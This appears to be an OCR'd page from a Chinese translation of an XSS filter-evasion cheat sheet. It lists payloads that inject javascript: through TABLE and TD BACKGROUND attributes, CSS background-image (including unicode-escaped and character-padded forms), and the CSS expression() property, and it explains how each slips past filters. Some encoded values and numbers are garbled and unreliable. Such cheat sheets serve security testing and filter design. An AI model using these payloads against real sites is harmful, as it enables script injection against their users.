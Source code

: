 * * *

## TABLE

```
<TABLE BACKGROUND="javascript:alert('XSS')"> 
```

* * *

## TD

像上面一样，TD 也可以通过 BACKGROUND 来包含 javascript xss 向量

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')"> 
```

* * *

## DIV background-image

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))"> 
```

* * *

## 使用 unicoded 编码 xss 利用代码的 DIV background-image

这是被轻微的修改去混淆 url 参数。他是最早被发现被 Renaud Lifchitz 用于攻击 hotmail。

```
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029"> 
```

* * *

## 附加额外字符的 DIV background-image

Rnaske 开发了一个 XSS fuzzer 去探测可以在开括号和 javascript 之间加入哪些额外字符在 IE 和安全模式下的 Netscape 8.1。都是一些十进制的字符，但是你也可以用十六进制来填充。（下面这些编码字符可以被使用：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）

```
<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))"> 
```

* * *

## DIV expression

它的一个变体是更加有效的去绕过实际的 xss 过滤器是在冒号和表达式之间添加换行符。

```
<DIV STYLE="width: expression(alert('XSS'));"> 
```
